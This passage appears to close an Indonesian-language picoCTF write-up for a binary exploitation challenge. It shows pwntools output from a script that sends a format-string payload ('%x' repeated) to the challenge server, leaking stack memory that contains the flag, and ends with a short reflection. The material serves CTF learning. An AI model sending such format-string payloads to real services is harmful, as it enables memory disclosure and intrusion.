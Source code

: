 ```
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x" + "_%x"*100 + "\n")
ÐC°ÃÍò÷ÿÿÿÿ☺`!►¡ó÷ÇÍò÷1☺°CÐCpicoCTF{I_l05t_4ll_my_m0n3y_6148be54}ýÿøzö÷@¤ó÷zÁ↓☺éÜ÷À°ó÷ÀÅò÷Àò÷H☻ýÿ¦Û÷ÀÅò÷ÊT☻ýÿ     ïô÷°Àò÷ Îò÷☻ýÿPM
õ÷ò÷zÁ↓Àò÷°☻ýÿ`!t☻ýÿ☻ýÿéüÃò÷<♥ýÿ4♥ýÿ☺☺`!zÁ↓ ☻ýÿ¡ÿÖ÷Àò÷Àò÷¡ÿÖ÷☺4♥ýÿ<♥ýÿÄ☻ýÿ☺Àò÷
÷ô÷pö÷Àò÷►Ù▼¶_äá☺0PMõ÷`ùô÷°☺0b
[*] Closed connection to mercury.picoctf.net port 59616
```
Didapat flagnya yakni:
```
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}
```

### Reflections
Permulaan yang cukup sulit untuk Binary Exploitation wkwkw, tapi lebih karena perlu memahami konsepnya membutuhkan waktu dan harus memperdalam ilmu arsitektur komputer. Neverthenless, lumayan bagus untuk belajar Binary Exploitation.
  

---
[Back to home](../Readme.md)